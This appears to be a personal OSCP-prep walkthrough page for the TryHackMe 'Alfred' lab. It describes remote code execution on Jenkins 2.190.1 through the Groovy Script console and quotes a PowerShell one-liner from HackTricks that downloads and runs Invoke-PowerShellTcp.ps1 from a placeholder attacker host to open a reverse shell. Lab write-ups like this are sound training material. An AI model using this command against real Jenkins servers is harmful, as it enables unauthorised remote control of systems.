

repository: nobodynate/nobodynate.github.io · page: OSCP-Prep/TryHackMe/Alfred/index.html · generator: mkdocs

# Alfred

![[7c5699b320e84609a8a43d835aae408b.jpg]]

Jenkins 2.190.1

RCE can be accomplished by creating a project (too noisy) or by using the **Groovy Script** - this skeleton script was pulled from HackTricks (https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins)
## Proof of concept
![[12081e6f0ffc4e68a881bd3bd4c51ad6.png]]
The above picture shows that RCE is possible.

## Exploit
### Hacktricks said we can use this:

``` Groovy
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');
Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```
